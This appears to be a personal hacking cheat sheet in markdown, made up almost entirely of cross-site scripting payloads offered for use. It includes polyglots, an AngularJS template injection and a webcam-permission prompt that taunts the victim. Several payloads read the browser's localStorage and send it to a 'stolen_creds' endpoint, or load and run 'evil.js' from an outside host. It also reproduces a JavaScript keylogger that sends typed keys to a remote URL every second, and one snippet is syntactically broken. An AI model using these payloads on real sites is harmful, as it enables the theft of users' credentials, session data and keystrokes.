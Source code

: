 # Xss
#hacking #xss

## HTML injection (without XSS)
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>

## Quick snippets
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo

# Angular JS
{{constructor.constructor('alert(1337)')()}}

# Ask for webcam permissions
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
# Emoji payload
"><script>alert("💻👿😀")</script>

# Post to webhook

$.(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)))
# Cheat sheets
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
http://www.xss-payloads.com/payloads-list.html?a#category=all


# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
